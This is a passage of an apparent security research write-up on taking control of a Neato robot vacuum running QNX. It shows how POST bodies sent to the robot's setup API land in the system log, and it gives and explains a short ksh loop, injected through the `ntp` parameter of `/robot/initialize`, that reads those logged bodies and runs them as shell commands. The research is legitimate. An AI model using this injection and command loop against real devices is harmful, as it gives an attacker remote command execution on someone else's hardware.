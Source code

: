 ## Input

From the list of tools, the ones which receive input (either directly or indirectly) from the network seem to be:

```
dhcp.client dhcpd ping traceroute sloginfo ntpdate
```

From this, I decided that `sloginfo` was the most promising. `sloginfo` is a QNX utility which lets you read from the system log. I figured that requests to the API server may be logged in the syslog, from which I could extract them and run them as commands. To test this idea, I made a POST request to the robot’s setup API with a path of `/asdf` and a body of “qwerty”, and was able to observe the following entries in the log by running `sloginfo`:  

```
Feb 24 15:26:52.746    6 10003     0 :ev_handler:874 NEATO: Received data from the App:
Method: POST
URI /asdf Body Length:4 
Feb 24 15:26:52.746    6 10003     0 :ev_handler:878 Working Buffer 5: qwerty
```
  
From here, I needed to write a `ksh` script which extracts and runs the POST bodies of certain requests. This `ksh` script had to overcome some strict limitations:

* It needed to be less than 128 characters long, as this is the size limit of the `ntp` parameter to `/robot/initialize`.
* As mentioned, the system has an extremely limited version of `ksh` with no string manipulation functions and does not have `sed`, `awk`, etc.

The script that I came up with is as follows:

```
while :;do for m in $(sloginfo -c|grep :878);do [ $m = %%%%% ]&&eval 'echo $c|ksh&c='||c=$c\ $m;done;done
```

I’ll explain the various bits below:

```
while :;do …;done
```

This is the shortest way that I found to write an infinite loop in ksh.

```
for m in $(sloginfo -c|grep :878);do 
```

I needed some way to iterate through the text in the syslog which was relevant to me so I could parse it. All entries containing POST bodies seemed to have “:878” in them, so I grepped for that. This will loop through items separated by whitespace on lines containing :878. The `-c` flag to `sloginfo` clears the log afterwards, so that we don’t have to worry about commands being run multiple times — each invocation of `syslog -c` shows only *new* log entries. 

```
[ $m = %%%%% ]&&eval 'echo $c|ksh&c='||c=$c\ $m;
```
